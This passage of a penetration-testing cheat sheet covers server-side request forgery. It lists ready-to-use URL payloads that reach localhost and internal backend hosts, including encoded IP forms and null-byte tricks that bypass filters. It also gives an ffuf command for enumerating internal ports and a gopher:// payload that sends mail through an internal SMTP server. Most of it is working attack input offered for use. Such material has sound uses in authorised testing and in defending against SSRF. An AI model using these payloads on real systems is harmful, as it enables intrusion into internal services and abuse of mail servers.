 ```sh
# Localhost
?url=http://localhost/
?url=http://127.0.0.1/
?url=http://127.0.0.1:80/
?url=http://127.0.0.1:3000/
?url=http://127.0.0.1:8000/
?url=http://127.0.0.1:8080/
?url=http://0/
?url=http://2130706433/
?url=http://017700000001/
?url=http://127.1/
?url=http://127.0.0.1/test.php%00
?url=http://127.0.0.1/test.php\x00

# Backend URL (e.g. 192.168.0.x)
?url=http://192.168.0.23/
?url=http://192.168.0.23:80/
?url=http://192.168.0.23:3000/
?url=http://192.168.0.23:8000/
?url=http://192.168.0.23:8080/

# Server status
?url=http://localhost/server-status

# At sign
?url=test@sub.example.com/index.php
```

### Local Port Enumeration

We can find which port is opening by fuzzing port number.

```bash
seq 1 65535 | ffuf -u https://example.com/?url=http://127.0.0.1:FUZZ -w -
```

<br />

## Gopher (gopher://)

We may be able to use `gopher://` scheme.

### Automation

We can use [Gopherus](https://github.com/tarunkant/Gopherus) to create a payload automatically.

### SMTP

At first, we need to prepare a payload for sending message to victim user.

```bash
gopher://127.0.0.1:25/_MAIL FROM:<john@example.com>
RCPT TO:<mike@example.com>
DATA
From:john@gofer.htb
Subject:Test
Hi, I'm not hacker.
.
```
